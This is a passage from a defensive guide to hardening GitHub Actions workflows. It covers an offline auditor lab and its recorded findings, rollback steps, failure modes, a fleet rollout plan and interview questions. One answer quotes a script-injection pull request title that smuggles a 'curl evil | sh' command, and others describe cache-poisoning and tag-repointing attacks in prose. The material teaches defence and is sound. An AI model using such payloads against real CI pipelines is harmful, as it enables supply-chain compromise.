Try `git push --force origin v1.2.3` from a non-bypass account; the ruleset must reject it.
Scorecard's `Pinned-Dependencies` treats a `uses:` tag as pinned when it is backed by a published immutable release, which is the consumer-side payoff of an action author doing this step.

### Step 9: Keep it enforced

Hardening decays with every pull request, so make the checks part of CI and put the workflow directory under review:

```yaml
name: workflow-audit
on:
  pull_request:
    paths: [".github/**"]
permissions: {}
jobs:
  audit:
    runs-on: ubuntu-latest
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - run: python3 code/08-Software-Supply-Chain/harden_github_actions/audit_workflows.py --fail-on medium .github/workflows
```

- Add `.github/workflows/` and `.github/dependabot.yml` to `CODEOWNERS` so a workflow change needs a security reviewer (GitHub's secure-use guide recommends exactly this).
- Run `zizmor` and the Scorecard action on a schedule and on pull requests; both report through code scanning.
  The Scorecard check names and scoring are in [[OpenSSF-Scorecard-and-CI-CD-Pipeline-Hardening]].
- Enable CodeQL scanning for Actions workflows; GitHub's reference lists it for detecting vulnerable workflow patterns.
- Review the audit log for `org.update_actions_secret` and environment changes.

**Verification:** open a pull request that introduces an unpinned `uses:` and confirm the audit job fails.
A control that was never seen to fail has not been verified.

## Worked Example: the Offline Auditor Lab

The lab is `code/08-Software-Supply-Chain/harden_github_actions/`.
It contains a vulnerable and a hardened copy of a release workflow and a pull request workflow, an auditor (`audit_workflows.py`), an offline pin tool (`pin_actions.py`), and negative controls (`mutate_check.py`).
It needs only `bash` and `python3`, makes no network calls, and works on a temporary copy of its fixtures, so running it changes nothing in the tree.
Run it with `bash run.sh`; it was recorded once on macOS arm64, and every block below is copied from `expected/darwin-arm64.txt`.

What it proves, and what it does not:

- The parser accepts the YAML subset real workflows use and rejects anchors, tabs, and duplicate keys loudly.
- The auditor finds the specific flaws in the vulnerable fixtures and none in the hardened ones; the mutation table shows each rule is capable of failing.
- The pin tool rewrites resolvable references and fails (exit 2) on an unresolvable one.
- It does not prove the workflows run, that a SHA is authentic, that an attestation verifies, or that repository settings are applied.
  The SHAs in `pins.json` were resolved with `git ls-remote` on 2026-11-21; the lab does not re-check them.

### Verified output: parser contract (macOS arm64)

```text
{"jobs": {"a": {"steps": [{"uses": "x/y@abc"}, {"env": {"K": "it's"}, "run": "echo \"a: b # not a comment\"\necho done\n"}]}}, "on": {"push": {"tags": ["v*"]}}, "permissions": {}}
rejected: anchors, aliases, and tags are not supported: &anchor 1
rejected: line 2: tab indentation is not valid YAML
rejected: line 2: duplicate key 'a'
```

### Verified output: the vulnerable workflows (macOS arm64)

```text
== fixtures/before/pr-triage.yml: 6 finding(s)
  CRITICAL GHA003 jobs.test.steps[0]         pull_request_target workflow checks out untrusted pull request code (${{ github.event.pull_request.head.sha }})
  HIGH     GHA001 workflow                   no top-level permissions and no job-level permissions in test: they get the repository default token
  HIGH     GHA002 jobs.test.steps[0]         actions/checkout is not pinned to a 40-hex commit SHA (ref 'v7' is mutable)
  HIGH     GHA002 jobs.test.steps[2]         example-org/lint-action is not pinned to a 40-hex commit SHA (ref 'v1' is mutable)
  HIGH     GHA004 jobs.test.steps[1]         untrusted ${{ github.event.pull_request.title }} is interpolated into a script body
  MEDIUM   GHA005 jobs.test.steps[0]         checkout leaves the token on disk (persist-credentials is not false)
== fixtures/before/release.yml: 16 finding(s)
  HIGH     GHA001 jobs.release               permissions: write-all grants every scope
  HIGH     GHA002 jobs.release.steps[0]      actions/checkout is not pinned to a 40-hex commit SHA (ref 'v7' is mutable)
  HIGH     GHA002 jobs.release.steps[1]      actions/setup-python is not pinned to a 40-hex commit SHA (ref 'v6' is mutable)
  HIGH     GHA002 jobs.release.steps[4]      actions/upload-artifact is not pinned to a 40-hex commit SHA (ref 'v7' is mutable)
  HIGH     GHA002 jobs.release.steps[5]      pypa/gh-action-pypi-publish is not pinned to a 40-hex commit SHA (ref 'release/v1' is mutable)
  HIGH     GHA002 jobs.release.steps[6]      softprops/action-gh-release is not pinned to a 40-hex commit SHA (ref 'v2' is mutable)
  HIGH     GHA004 jobs.release.steps[2]      untrusted ${{ github.event.head_commit.message }} is interpolated into a script body
  HIGH     GHA006 workflow.env.PYPI_TOKEN    secret exposed to every step of every job through workflow-level env
  HIGH     GHA007 jobs.release               job holds publish-class permissions and also checks out or builds code (steps 0,3)
  HIGH     GHA008 jobs.release.steps[1]      cache restore or save inside a job with publish-class permissions
  HIGH     GHA010 jobs.release.steps[4]      artifact includes hidden files from the whole workspace (path '.')
  MEDIUM   GHA005 jobs.release.steps[0]      checkout leaves the token on disk (persist-credentials is not false)
  MEDIUM   GHA009 jobs.release               publishing job has no environment, so no required-reviewer or branch-rule gate
  MEDIUM   GHA011 jobs.release.steps[5]      publishing with long-lived secret PYPI_API_TOKEN: use trusted publishing (OIDC) where the registry supports it
  MEDIUM   GHA012 workflow                   release workflow emits no provenance attestation
  LOW      GHA001 workflow                   no top-level permissions; every job sets its own, but a new job would inherit the repository default
summary: critical=1, high=15, medium=5, low=1, info=0
exit status: 1
```

The release workflow has 16 findings and the pull request workflow 6 (the `summary` line counts both: critical=1, high=15, medium=5, low=1).
`GHA003` is the only critical: `pull_request_target`, a checkout of `github.event.pull_request.head.sha`, then `make test`.
`GHA007` and `GHA008` are the findings a per-line linter cannot make: they come from combining the job's permissions with its steps.

### Verified output: pinning from the offline map (macOS arm64)

```text
release.yml: pinned 5, unresolved 0
  actions/checkout@v7 -> 3d3c42e5aac5... (v7.0.1)
  actions/setup-python@v6 -> ece7cb06caef... (v6)
  actions/upload-artifact@v7 -> cf430e030ddb... (v7.0.2)
  pypa/gh-action-pypi-publish@release/v1 -> 7245906fb61f... (v1.14.3)
  softprops/action-gh-release@v2 -> 3bb12739c298... (v2)
pr-triage.yml: pinned 1, unresolved 1
  actions/checkout@v7 -> 3d3c42e5aac5... (v7.0.1)
  UNRESOLVED example-org/lint-action@v1
exit status: 2
uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
uses: actions/setup-python@ece7cb06caefa5fff74198d8649806c4678c61a1 # v6
uses: actions/upload-artifact@cf430e030ddbb5b0abf93d22962f4752f3646cd9 # v7.0.2
```

The `exit status: 2` is the point.
`example-org/lint-action@v1` is not in the map, so the tool refuses to claim the file is pinned.
After pinning, exactly one `GHA002` remains in the whole `before` directory: that unresolved reference.

```text
1
```

### Verified output: the hardened workflows and the negative controls (macOS arm64)

```text
== fixtures/after/pr-triage.yml: 0 finding(s)
== fixtures/after/release-caller.yml: 0 finding(s)
== fixtures/after/release.yml: 0 finding(s)
summary: critical=0, high=0, medium=0, low=0, info=0
exit status: 0
```

```text
baseline findings: 0
M1 unpin attest to a tag           expect GHA002 -> fired GHA002 DETECTED
M2 top-level write-all             expect GHA001 -> fired GHA001 DETECTED
M3 build inside the publish job    expect GHA007 -> fired GHA007 DETECTED
M4 cache inside the attest job     expect GHA008 -> fired GHA008,GHA009 DETECTED
M5 drop the pypi environment       expect GHA009 -> fired GHA009 DETECTED
M6 add a long-lived PyPI token     expect GHA011 -> fired GHA011 DETECTED
M7 interpolate a commit message    expect GHA004 -> fired GHA004 DETECTED
M8 persist checkout credentials    expect GHA005 -> fired GHA005 DETECTED
M9 remove the attest job           expect GHA012 -> fired GHA012 DETECTED
exit status: 0
```

`M4` fires `GHA009` as well as `GHA008`: once a `setup-python` step is added to the attest job, the job is no longer attest-only, so its `id-token: write` now counts as a publish credential without an environment.
That is the intended behavior and an example of one mistake producing two independent signals.

I also ran `actionlint` 1.7.12 once on the four workflow fixtures (outside the lab): it reported nothing for `after/release.yml`, `after/pr-triage.yml`, and `after/release-caller.yml`, and only the two untrusted-input interpolations in the `before` fixtures.
That confirms the hardened files are syntactically valid workflows; it does not replace running them.

## Rollback Procedure

Roll back by step, newest first, and keep each change in its own commit or API call so a bad one can be reverted alone.

1. Step 9 (audit job): remove the required status check, then the workflow.
2. Step 8 (immutable releases): the repository setting can be turned off for future releases, but the tag and assets of a release already published as immutable cannot be modified; you can delete the release, but its tag name can then never be reused, so if a bad release went out, publish a new version and deprecate the old one in the registry instead of trying to mutate it.
   Remove the tag ruleset by switching it to disabled, not by deleting, so the rule set is preserved for re-enable.
3. Step 7 (attestation): delete the `attest` job and drop it from `needs`.
   Attestations already created stay valid and verifiable; do not tell consumers to stop verifying until the new pipeline emits them again.
4. Step 6 (OIDC): do not delete the old registry token until trusted publishing has succeeded once.
   If the first trusted publish fails, the stored token still works and you fix the trust configuration (workflow file name, environment name, repository) without an outage.
5. Step 5 (job split): revert the workflow file with `git revert`; nothing outside the file changed.
6. Step 4 (pins): a pin is just a different string, so `git revert` restores tags, but keep Dependabot's cooldown.
   If `sha_pinning_required` blocks an urgent fix, set it to `false` through the same API call, merge the fix, and re-enable it; do not disable it by leaving it off.
7. Step 1 (defaults): `gh api -X PUT repos/OWNER/REPO/actions/permissions/workflow -f default_workflow_permissions=write` restores the old default, and a repository inherits its organization's stricter value if one is set.

**Verification:** after each rollback, run the auditor and `gh api repos/OWNER/REPO/actions/permissions/workflow`, and confirm the last tag build still publishes from a branch of the repository you control.

## Failure Modes of the Procedure

| Symptom | Cause | Recovery |
| :--- | :--- | :--- |
| Every workflow stops with "action is not allowed" or a pin policy error after Step 1 | `sha_pinning_required` was enabled before every `uses` was pinned | Set it to `false`, finish Step 4, enable again; use an evaluate-mode policy next time |
| The `PUT .../actions/permissions` call changed which actions are allowed | `allowed_actions` was omitted or altered when the body was built (omission behavior untested) | `GET` the object first and send the full current values back with `sha_pinning_required` |
| `ENEEDAUTH` or "Unable to authenticate" when publishing to npm | Trusted publisher file name differs (including `.yml`), repository URL in `package.json` mismatches, self-hosted runner, or missing `id-token: write` | Match the file name exactly; check `repository.url`; use a GitHub-hosted runner |
| PyPI rejects the OIDC token | Publish step was moved into a reusable workflow, or the environment or workflow name differs from the trusted publisher entry | Keep the publish job in the calling workflow; make the three fields match exactly |
| `attest` fails with a permissions error | `id-token: write` or `attestations: write` is missing in the job (or, for a reusable workflow, in the caller) | Add both to the calling job and the reusable workflow |
| `gh attestation verify` fails for a reusable-workflow build when you pass only `--owner` or `--repo` | The signer is the reusable workflow | Add `--signer-workflow` or `--signer-repo` |
| `slsa-verifier` rejects a builder referenced by SHA | The generator must be referenced by an exact `@vX.Y.Z` tag | Reference it by tag, or migrate to `actions/attest` |
| The auditor reports a parse error on a valid workflow | The workflow uses anchors, multi-line flow scalars, or tabs | Rewrite those lines, or rely on `actionlint` and `zizmor` for that file |
| The auditor reports nothing on a reusable-workflow caller | It cannot see inside the called workflow | Audit the callee repository too; the caller check is only about references and permissions |
| `GHA004` is silent on a risky `${{ }}` | The expression is not on the untrusted list, for example a value produced by an earlier step output | Treat step outputs derived from untrusted input as untrusted; the lab does no data-flow analysis |
| A pin is correct but malicious | The SHA is an impostor commit from a fork, or the pinned release was already compromised | Check reachability from the real repository; use the lockfile; review the diff when Dependabot updates the pin |
| Scorecard still reports `Token-Permissions` below 10 | A job defines write scopes for `contents` or `packages`; the check documentation says such run-level writes produce warnings, and that points are not reduced when the job uses a recognized packaging action, so a job without one may lose points (the check documentation does not state the deduction) | Read the check detail; justify and keep the grant if the job needs it |
| Immutable release rejects an asset upload | The release was published before all assets were attached | Delete the draft, create a new draft, attach all assets, then publish |

## Pitfalls

> [!warning] Pitfalls:
> - **Pinning to a tag you trust.** The tag is a pointer its owner or an attacker with the owner's access can move; "verified creator" does not change that.
> - **Fixing `permissions` per job but not at the top.** The next job added inherits the repository default; Scorecard takes a point for it.
> - **`${{ }}` anywhere inside `run:` with outside data.** Quoting does not help, because the substitution happens before the shell parses the quotes.
> - **A privileged trigger plus "just reading the PR".** `npm install` and `make` execute code; reading is only `cat` and `git diff`.
> - **`id-token: write` at workflow level.** Every job, including the build, can then mint the workflow's identity.
> - **Treating an attestation as a security verdict.** GitHub's own documentation says artifact attestations are not a guarantee that an artifact is secure; they link it to its source and build instructions, and your policy decides.
> - **Verifying with only `--owner`.** It accepts any signing workflow in the organization, including a workflow an attacker added in a throwaway repository.
> - **Caching in the release job.** A cache written by a lower-trust workflow is code execution in the release workflow.
> - **Uploading the workspace with hidden files.** On `actions/checkout` older than v6.0.0 this can publish the persisted token inside the artifact.
> - **Deleting the long-lived token before the first trusted publish works.** You lose the way back.
> - **Trusting the lab auditor as a complete scanner.** It is a structural check of fourteen rules over a YAML subset; run `zizmor` and CodeQL as well.

## At Scale

A single repository can be fixed by hand in an afternoon.
A fleet of thousands cannot, and the controls differ in how safely they can be mass-applied.

### Roll out in order of blast radius and reversibility

1. Observe: run the auditor, `zizmor`, or Scorecard in report-only mode across every repository and track counts per rule.
   GitHub's Actions policies have an Evaluate enforcement status for the same purpose.
2. Defaults: set the organization's default `GITHUB_TOKEN` to read and disable workflow-created pull request approvals.
   This is the cheapest change and breaks only workflows that relied on implicit write access.
3. Pin and update: open pin pull requests with a tool, add Dependabot with a cooldown, then turn on the SHA-pinning policy in evaluate mode, then enforce.
4. Isolate the release workflows by moving publishing to OIDC and environments, repository by repository, starting with those that publish the most-used packages.
5. Standardize: provide one central reusable build-and-attest workflow and require consumers to verify against its path.

### Decision rules

- A repository that publishes anything gets Steps 1 to 8; a repository that only runs tests gets Steps 1 to 4.
- Use the lockfile where GitHub offers it; otherwise hand-pin with Dependabot cooldown.
- Prefer `pull_request`; allow `pull_request_target` only through an explicit policy exception with a named owner.
- Prefer one central attest workflow when more than a handful of repositories release; its compromise is the largest single risk, so protect it with required reviewers, an immutable release, and a tag ruleset, and reference it by SHA from callers.
- Never run release jobs on non-ephemeral self-hosted runners; GitHub's guidance says self-hosted runners are not guaranteed clean and should almost never be used for public repositories.
  The sandbox model for agent shells is covered in [[19-Shell-and-Unix-Engineering/22-Shell-and-AI-Agents/Agent-Shell-Sandboxing-Seatbelt-and-Landlock|Agent Shell Sandboxing Seatbelt and Landlock]].

### Costs

- Pinning increases update churn: every action bump is a pull request, so the cooldown and grouping settings are part of the design, not an option.
- Environments with required reviewers add a human step to every release; use a wait timer or a smaller reviewer group for low-risk packages rather than removing the gate.
- A central workflow couples every project to one team's release cadence.
- Artifact attestations require GitHub Enterprise Cloud for private repositories and are not available on GitHub Enterprise Server, so an organization on Enterprise Server needs another provenance route; [[Supply-Chain-Decision-Records]] covers choosing among them.
- The decisions about quarantining upstream code before it reaches CI are owned by [[Enterprise-Third-Party-Code-Ingestion-and-Quarantine-Architecture]].

## Practice Drill

> [!tip] Practice Drill:
> Run `bash run.sh` in the lab directory, then do these on your own copy of `fixtures/before/release.yml`:
> 1. Fix findings in this order: `GHA001`, `GHA002` (using `pin_actions.py`), `GHA004`, `GHA005`, `GHA006`.
>    After each, run the auditor and confirm the count of that rule is zero.
> 2. Split the single job into build, attest, and publish jobs until `GHA007`, `GHA008`, `GHA009`, and `GHA010` clear without adding a new finding.
> 3. Write a new mutation in `mutate_check.py`, for example adding `secrets: inherit` to a job, and add a rule that catches it if none does.
> 4. Take a real workflow from a repository you maintain, run the auditor and `actionlint`, and list one finding each tool misses that the other catches.
> The next exercise is [[Drill-Supply-Chain-Detect-Tarball-vs-Git-Tag-Backdoor]], which asks what hardening this pipeline cannot see.

## Interview Questions

> [!question] L5
> Why does `uses: some/action@v4` not protect you when the action's maintainer account is compromised, and what does pinning to a SHA change?
>
> > [!success]- Answer
> > A tag is a mutable reference resolved at run time, so an attacker with push access can repoint `v4` to a malicious commit and every workflow that references the tag runs it on the next trigger; the `tj-actions/changed-files` compromise did this to multiple version tags in March 2025.
> > A full commit SHA names the exact commit content, and GitHub's documentation states that replacing it would need a SHA-1 collision on a valid Git object, so the workflow keeps running the reviewed code.
> > The SHA does not prove origin, because a commit that exists only in a fork can be referenced through the parent's name; you still confirm the commit belongs to the real repository, or use the workflow dependency lockfile where available.
> > Pinning also stops automatic fixes, so pair it with Dependabot and a cooldown.

> [!question] L5
> What does `permissions: {}` at the top of a workflow do, and why grant scopes per job?
>
> > [!success]- Answer
> > It sets every `GITHUB_TOKEN` scope to `none` for the workflow, so a job that declares nothing has no repository access.
> > Granting scopes per job means a compromised step in a read-only build job cannot write to the repository, and only the job that needs `contents: write` or `id-token: write` has it.
> > Without a top-level map, a job with no map gets the repository or organization default, and Scorecard's `Token-Permissions` check removes a point even when every current job defines its own.

> [!question] L5
> Predict the output.
> You run `git ls-remote --tags https://github.com/pypa/gh-action-pypi-publish.git refs/tags/v1.14.3 'refs/tags/v1.14.3^{}'` (as of 2026-11-21).
> How many lines print, and which SHA do you put after `@` in `uses:`?
>
> > [!success]- Answer
> > Two lines print because `v1.14.3` is an annotated tag: `aef6c9b6e301dc803e1bc9133e9ce67ae9b0906b refs/tags/v1.14.3` is the tag object, and `7245906fb61fa33a13554f9d5fb856fe61758086 refs/tags/v1.14.3^{}` is the commit it points to.
> > You pin the commit (`7245906f...`), with `# v1.14.3` as a comment.
> > A lightweight tag such as `actions/checkout` `v7.0.1` prints one line, and that line is already the commit.
> > Also note that the `release/v1` reference the action's README suggests is a branch that currently resolves to the same commit, and would not after the next commit.

> [!question] L5
> Debug this: the publish step to npm fails with `ENEEDAUTH` right after the workflow file was renamed from `publish.yml` to `release.yml`.
> The job has `id-token: write` and runs on `ubuntu-latest`.
> What is wrong?
>
> > [!success]- Answer
> > npm trusted publishing matches the workflow file name registered on npmjs.com exactly, including the `.yml` extension, and all fields are case-sensitive; the registered trusted publisher still says `publish.yml`.
> > npm does not validate the configuration when it is saved, so the error appears only at publish time.
> > Update the trusted publisher entry to `release.yml`, and also check that `repository.url` in `package.json` matches the GitHub repository, that the runner is GitHub-hosted (self-hosted is not currently supported), and that the CLI is at least 11.5.1.

> [!question] L6
> Why does moving `${{ github.event.pull_request.title }}` from the `run:` text into an `env:` variable stop script injection?
>
> > [!success]- Answer
> > The runner expands `${{ }}` expressions in the `run:` text before the shell sees the script, so a title like `x"; curl evil | sh; "` becomes part of the script and runs.
> > In `env:` the runner assigns the value to an environment variable of the step, and the shell reads `"$PR_TITLE"` as a single data value that is never parsed as code.
> > It only protects if you quote the variable in the script; unquoted expansion can still word-split, and passing the value to `eval`, `bash -c`, or a tool that interprets it reintroduces execution.
> > An action that receives the value as an input is also not vulnerable to this form, since the value is not used to generate a shell script.

> [!question] L6
> Predict the output.
> The lab auditor runs on a workflow with `on: pull_request_target`, one job with no `permissions` key and no top-level one, steps `actions/checkout@v7` with `ref: ${{ github.event.pull_request.head.sha }}` and then `run: make test`.
> Which rule IDs fire, with which severities?
>
> > [!success]- Answer
> > `GHA003` critical (privileged trigger plus a checkout of the pull request head), `GHA001` high (no top-level permissions and the job defines none, so it gets the repository default token, which `pull_request_target` makes read-write), `GHA002` high (checkout by `v7` rather than a SHA), and `GHA005` medium (checkout without `persist-credentials: false`).
> > This is the shape of `fixtures/before/pr-triage.yml`, whose recorded output also has a second `GHA002` and a `GHA004` for the other lines in that file.
> > `GHA014` does not fire, because it is reported only when `GHA003` did not.

> [!question] L6
> Why must the attest job be separate from the build job, and what does the split not protect against?
>
> > [!success]- Answer
> > SLSA Build L3 requires that the material that authenticates provenance is not accessible to the environment running user-defined build steps and that those steps cannot alter the provenance; a build step in the same job as `id-token: write` can request the OIDC token and sign what it likes.
> > In a separate attest job that runs no repository code, the OIDC token and the signing step are out of reach of dependency scripts.
> > The split does not prove the artifact is benign: a compromised dependency can still produce a malicious file that is then truthfully attested, so you also need reproducible rebuilds, dependency review, and a verifier that pins the expected workflow and ref.
> > GitHub's documented route to Build L3 is a reusable workflow that does both build and attest, which additionally prevents the calling repository's inputs from steering it.

> [!question] L6
> A release workflow restores a dependency cache in the job that publishes.
> Describe the attack and the fix.
>
> > [!success]- Answer
> > A cache entry is keyed and scoped, and the default branch's scope can be restored by other branches.
> > An attacker who gets code execution in a lower-trust workflow that can write that scope (a `pull_request_target` workflow with a write-capable cache mode, or any job that can write the cache key the release uses) plants a poisoned entry that the release job restores and then executes with its credentials.
> > GitHub makes `pull_request_target` workflows read-only on the default branch scope for this reason, and `zizmor`'s `cache-poisoning` audit treats release workflows as the sink.
> > The fix is to disable caching in release jobs (npm's own example sets `package-manager-cache: false` and says never to cache release builds), and to build from a clean runner.

> [!question] L7
> Design the rollout of these controls across 3,000 repositories without stopping releases.
>
> > [!success]- Answer
> > Sequence by reversibility and measure first: report-only scanning with counts per rule, then organization defaults (read-only token, no PR approval by workflows), then pin pull requests plus Dependabot with a cooldown, then the SHA-pinning policy in evaluate mode with its policy insights, and only then enforcement.
> > Prioritize repositories by what they publish, move those to OIDC trusted publishing and protected environments, and offer one central build-and-attest reusable workflow so teams adopt a template instead of authoring isolation.
> > Track the metric as the number of high findings per publishing repository, and keep a documented exception path (for `pull_request_target`, for registries without OIDC) with an owner and an expiry, because every enforcement that breaks a release without a path forward gets turned off.
> > Name the costs: update churn, reviewer latency on releases, coupling to the central workflow's cadence.

> [!question] L7
> After you SHA-pin everything, a post-incident review asks whether you are protected from a `tj-actions`-style event.
> What residual risks do you list?
>
> > [!success]- Answer
> > Pinned direct references are protected from tag repointing, but there are gaps: transitive actions used by a composite action you pin (the lockfile covers these; hand-pinning does not), impostor commits that pass as pins, a pin that was already malicious when you adopted it, an update bot that moves the pin to a bad new release, and reusable workflow calls that the lockfile does not cover.
> > Also actions that download and execute code at run time (a script or binary fetched by URL) are outside what any pin of the action can guarantee.
> > Mitigations: lockfile where available, review of every pin change including the new commit's reachability, a Dependabot cooldown, an allow-list of actions at the organization level, egress restrictions, and least-privilege tokens and short-lived OIDC credentials so that a compromised action reads little.
> > The incident itself printed secrets from runner memory into public logs; short-lived credentials limit what such an event yields.

> [!question] L8+
> Argue whether a single-repository workflow that builds, then attests in a second job, achieves SLSA Build L3, and what a central reusable workflow changes.
>
> > [!success]- Answer
> > The L3 requirements concern the build platform's guarantees: provenance fields generated by the platform, signing material inaccessible to user-defined build steps, and isolation between builds.
> > GitHub's documentation says attestations alone give Build L2 and a reusable workflow gives the isolation for L3, because the build steps and the attest step are defined by a workflow the calling repository cannot modify through its own inputs.
> > In the single-file design the signer identity is the repository's own `release.yml`, so anyone who can change that file on the tag's commit (a developer with write access, or an attacker who has obtained it) controls both what is built and what is attested; the separation protects the OIDC token from build dependencies but not from a changed workflow.
> > A central reusable workflow moves that control to a different repository with its own review, reference-by-SHA, immutable releases, and tag rules, and lets verifiers pin `--signer-workflow` and `--source-ref`.
> > The residual trust is that central repository itself, the GitHub-hosted runner, and the fact that provenance describes the build, not the intent; a precise answer states the claim you are making and who must be compromised to falsify it.

## Further Reading

- GitHub Docs, "Secure use reference" - the canonical list of workflow-level mitigations: secrets, injection, third-party actions, self-hosted runners, JIT runners.
- GitHub Docs, "Securely using pull_request_target" - the mechanism of the pwn request and the new checkout guard and default policy, with dates.
- GitHub Docs, "Workflow dependency lockfiles" - what the lockfile records and what it does not cover; read this before relying on SHA pinning at scale.
- GitHub Docs, "Using artifact attestations and reusable workflows to achieve SLSA v1 Build Level 3" - the exact permission and verification flags for the reusable-workflow shape.
- GitHub CLI manual, `gh attestation verify` - the identity-checking flags and the warning about what in an attestation can be forged by the workflow.
- GitHub Docs, "Immutable releases" and "Verifying the integrity of a release" - the tag and asset lock, the release attestation, and `gh release verify`.
- OpenSSF Scorecard `checks.md` - the scoring definitions behind `Token-Permissions`, `Pinned-Dependencies`, `Dangerous-Workflow`, and `Signed-Releases`.
- `zizmor` audit rules - one page per workflow weakness, including `impostor-commit`, `cache-poisoning`, `artipacked`, and `use-trusted-publishing`, each with its remediation.
- SLSA v1.2 Build requirements - the wording of "Provenance is Unforgeable" and the isolation requirements that justify the job split.
- `pypa/gh-action-pypi-publish` README - the advice to grant `id-token: write` only to the publish job and to separate building from publishing, plus the reusable-workflow limitation of trusted publishing.
- GitHub Security Lab, "Keeping your GitHub Actions and workflows secure: Untrusted input" - the original list of attacker-controlled event fields.
- GHSA-mrrh-fwg8-r2c3 (CVE-2025-30066) - the advisory for the tag-repointing compromise that motivates pinning.

## Related

- Prerequisites: [[OpenSSF-Scorecard-and-CI-CD-Pipeline-Hardening]], [[Sigstore-Keyless-Signing-Cosign-Fulcio-and-Rekor]]
- Next: [[Drill-Supply-Chain-Detect-Tarball-vs-Git-Tag-Backdoor]]
- See also: [[19-Shell-and-Unix-Engineering/22-Shell-and-AI-Agents/Agent-Shell-Sandboxing-Seatbelt-and-Landlock|Agent Shell Sandboxing Seatbelt and Landlock]]
- Also related: [[SLSA-Framework-Build-and-Source-Tracks]], [[In-Toto-Layouts-Link-Metadata-and-DSSE-Attestations]], [[Reproducible-Builds-as-a-Security-Control]], [[Case-Study-Codecov-Bash-Uploader-and-TJ-Actions]], [[Respond-to-a-Compromised-Transitive-Dependency]], [[Supply-Chain-Decision-Records]], [[Enterprise-Third-Party-Code-Ingestion-and-Quarantine-Architecture]], [[Drill-Supply-Chain-Verify-and-Reject-Forged-SLSA-Provenance]]
- Lab: `code/08-Software-Supply-Chain/harden_github_actions/`
